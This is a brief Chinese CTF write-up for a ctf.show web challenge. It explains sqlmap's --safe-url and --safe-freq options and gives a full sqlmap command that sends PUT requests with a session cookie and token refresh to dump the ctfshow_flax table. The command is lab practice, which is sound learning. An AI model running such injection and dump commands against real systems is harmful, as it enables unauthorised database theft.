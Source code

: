 # 知识点
### --safe-url    --safe-freq
--safe-url=SAFEURL  URL address to visit frequently during testing<br />--safe-req=SAFER..  Load safe HTTP request from a file
# 思路
别忘加上--safe-preq
```bash
sqlmap -u "http://cb73b752-fca2-4adb-9e92-cc71c923107d.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" --cookie="PHPSESSID=60prkqe8189934t5pv3ikepa16" --safe-url="http://cb73b752-fca2-4adb-9e92-cc71c923107d.challenge.ctf.show/api/getToken.php" --safe-freq=1 -D ctfshow_web -T ctfshow_flax --dump
```

